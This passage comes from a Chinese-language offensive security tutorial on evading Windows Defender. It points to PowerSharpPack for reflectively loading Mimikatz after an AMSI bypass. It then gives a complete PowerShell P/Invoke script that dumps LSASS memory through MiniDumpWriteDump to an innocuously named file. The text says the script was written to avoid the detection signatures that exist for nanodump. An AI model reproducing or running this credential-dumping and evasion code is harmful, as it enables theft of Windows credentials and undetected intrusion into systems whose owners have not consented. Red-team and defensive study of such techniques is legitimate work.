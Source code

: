   
幸运的是，这个 repo不仅包含每个著名工具的大量预构建脚本，还包含从二进制文件创建您自己的脚本的说明。  

  * 

    
    
    https://github.com/S3cur3Th1sSh1t/PowerSharpPack

对于这个 PoC，我将执行 Mimikatz，但你可以随意使用任何其他工具。  
反射加载 Mimikatz。  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621095508.png)  
请注意，如前所述，某些二进制文件可能不需要绕过 AMSI，具体取决于您在脚本中应用的二进制文件的字符串表示形式。但由于 Invoke-Mimikatz
广为人知，因此我需要在本示例中执行此操作。  
  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621095455.png)

 **10  P/Invoke C#程序集**

  
P/Invoke 或 Platform Invoke 允许我们从非托管的本机 Windows DLL 访问结构、回调和函数，以便访问可能无法直接从 .NET
获得的本机组件中的较低级别 API。（类似的功能，JAVA中叫JNI）  
  
现在，由于我们知道它的作用，并且知道我们可以在 PowerShell 中使用 .NET，这意味着我们可以从 PowerShell 脚本访问低级
API，如果我们之前修补了 AMSI，我们可以在没有 Defender 监视的情况下运行该脚本。  
对于这个概念证明，假设我们想通过 MiniDumpWriteDump 将 LSASS
进程转储到文件中，该文件在“Dbghelp.dll”中可用。为此，我们可以利用fortra 的 nanodump 工具。但是，Microsoft
有一堆该工具的特征码。相反，我们可以利用 P/Invoke 编写一个 PowerShell 脚本来执行相同的操作，但我们可以修补 AMSI
以使其在这样做时变得不可检测。  

  * 

    
    
    https://github.com/fortra/nanodump

因此，我将为 PoC 使用以下 PS 代码。  
MiniDumpWriteDump.ps  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    Add-Type @"    using System;    using System.Runtime.InteropServices;  
        public class MiniDump {        [DllImport("Dbghelp.dll", SetLastError=true)]        public static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId, IntPtr hFile, int DumpType, IntPtr ExceptionParam, IntPtr UserStreamParam, IntPtr CallbackParam);    }"@  
    $PROCESS_QUERY_INFORMATION = 0x0400$PROCESS_VM_READ = 0x0010$MiniDumpWithFullMemory = 0x00000002  
    Add-Type -TypeDefinition @"    using System;    using System.Runtime.InteropServices;  
        public class Kernel32 {        [DllImport("kernel32.dll", SetLastError=true)]        public static extern IntPtr OpenProcess(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);        [DllImport("kernel32.dll", SetLastError=true)]        public static extern bool CloseHandle(IntPtr hObject);    }"@  
    $processId ="788"  
    $processHandle = [Kernel32]::OpenProcess($PROCESS_QUERY_INFORMATION -bor $PROCESS_VM_READ, $false, $processId)  
    if ($processHandle -ne [IntPtr]::Zero) {    $dumpFile = [System.IO.File]::Create("C:\users\public\test1234.txt")    $fileHandle = $dumpFile.SafeFileHandle.DangerousGetHandle()  
        $result = [MiniDump]::MiniDumpWriteDump($processHandle, $processId, $fileHandle, $MiniDumpWithFullMemory, [IntPtr]::Zero, [IntPtr]::Zero, [IntPtr]::Zero)  
        if ($result) {        Write-Host "Sucess"    } else {        Write-Host "Failed" -ForegroundColor Red    }  
        $dumpFile.Close()    [Kernel32]::CloseHandle($processHandle)} else {    Write-Host "Failed to open process handle." -ForegroundColor Red}
